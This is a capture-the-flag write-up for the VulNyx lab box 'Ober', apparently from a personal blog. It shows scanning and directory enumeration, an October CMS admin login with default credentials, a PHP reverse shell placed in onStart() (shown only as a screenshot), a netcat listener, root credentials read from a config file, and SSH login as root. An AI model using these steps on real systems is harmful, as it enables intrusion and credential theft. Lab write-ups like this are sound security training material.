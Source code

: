 ```yaml
---
title: VulNyx - Ober Writeup
date: 2025-05-14 10:24:59 +0530
categories: [Vulnyx]
tags: [vulnyx]
description: Hey everyone! This write-up covers the challenge “Ober” which was released on https://vulnyx.com. The box is rated easy and is an excellent challenge for those looking to start out.
--- 
```


## Reconnaissance

```bash
labs/vulnyx/Ober 
❯ nmap -sC -sV -oA ober 192.168.25.6
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-05-04 09:11 EDT
Nmap scan report for ober.vl (192.168.25.6)
Host is up (0.000068s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 27:21:9e:b5:39:63:e9:1f:2c:b2:6b:d3:3a:5f:31:7b (RSA)
|   256 bf:90:8a:a5:d7:e5:de:89:e6:1a:36:a1:93:40:18:57 (ECDSA)
|_  256 95:1f:32:95:78:08:50:45:cd:8c:7c:71:4a:d4:6c:1c (ED25519)
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Homepage &#124; My new websites
|_http-server-header: Apache/2.4.38 (Debian)
8080/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Site doesn't have a title (text/html).
MAC Address: 08:00:27:B2:AF:E6 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.69 seconds

```

### Port 80 - HTTP

```bash
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Homepage &#124; My new websites
|_http-server-header: Apache/2.4.38 (Debian)
```

The main webpage did not contain anything interesting. However, performing directory enumeration using Gobuster revealed an *October CMS Administration login page*.  

## Directory Enumeration
### Gobuster

```bash
labs/vulnyx/Ober 
❯ sudo ./gobuster dir -u http://192.168.25.6 -w /usr/share/wordlists/dirb/common.txt -e -b 403,404
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.25.6
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404,403
[+] User Agent:              gobuster/3.6
[+] Expanded:                true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
http://192.168.25.6/0                    (Status: 200) [Size: 9895]
http://192.168.25.6/backend              (Status: 302) [Size: 406] [--> http://192.168.25.6/backend/backend/auth]
http://192.168.25.6/config               (Status: 301) [Size: 313] [--> http://192.168.25.6/config/]
http://192.168.25.6/index.php            (Status: 200) [Size: 9895]
http://192.168.25.6/modules              (Status: 301) [Size: 314] [--> http://192.168.25.6/modules/]
http://192.168.25.6/plugins              (Status: 301) [Size: 314] [--> http://192.168.25.6/plugins/]
http://192.168.25.6/storage              (Status: 301) [Size: 314] [--> http://192.168.25.6/storage/]
http://192.168.25.6/themes               (Status: 301) [Size: 313] [--> http://192.168.25.6/themes/]
http://192.168.25.6/vendor               (Status: 301) [Size: 313] [--> http://192.168.25.6/vendor/]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================                                                                      
```
<br>
An October CMS Administration login page was discovered in `/backend/backend/auth/signin`

<center>
<figure>
<img src="/assets/img/october_cms_login.png" style="width: 500px;" alt="October CMS Administration login page">
<figcaption>Fig.1 - October CMS Administration login page</figcaption>
</figure>
</center>


After testing commonly used default credentials, I was able to successfully login to October CMS admin panel using the credentials `admin:admin`

## Reverse Shell

October CMS allows PHP execution via functions like *`onStart()`* (See [docs](https://docs.octobercms.com/2.x/cms/pages.html#page-execution-life-cycle)). This allows us to include PHP reverse shells within these functions.

<center>
<figure>
<img src="/assets/img/october_cms_php_shell.png" style="width: 1000px;" alt="PHP reverse shell included within the function onStart()">
<figcaption>Fig.2 - PHP reverse shell included within the function onStart()</figcaption>
</figure>
</center>
<br>

```bash
labs/vulnyx/Ober 
❯ nc -lnvp 1234
listening on [any] 1234 ...
connect to [192.168.25.4] from (UNKNOWN) [192.168.25.6] 56302
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Root access

The [docs](https://docs.octobercms.com/2.x/database/basics.html#configuration) mention a database configuration file can be found in `/config/database.php` which upon inspection, led to the discovery of the root-level credentials `root:r00tP@ssW0rd`

```bash
> grep "password" database.php
            'password'   => 'root',
         // 'password'   => 'r00tP@ssW0rd',
            'password' => '',
            'password' => '',
            'password' => null,
```

## User Flag

```bash
root@ober:~# find / -name user.txt
/home/c0w/user.txt
root@ober:~# cat /home/c0w/user.txt 
7597****************************
```

## Root Flag

```bash
labs/vulnyx/Ober 
❯ ssh root@192.168.25.6
The authenticity of host '192.168.25.6 (192.168.25.6)' can't be established.
ED25519 key fingerprint is SHA256:YZj1kF9uAadJk+aLh9kjKOFN5ohREbSGoCGqU4hA1w4.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.25.6' (ED25519) to the list of known hosts.
root@192.168.25.6's password: 
root@ober:~# ls
root.txt
root@ober:~# cat root.txt 
5dfc****************************
```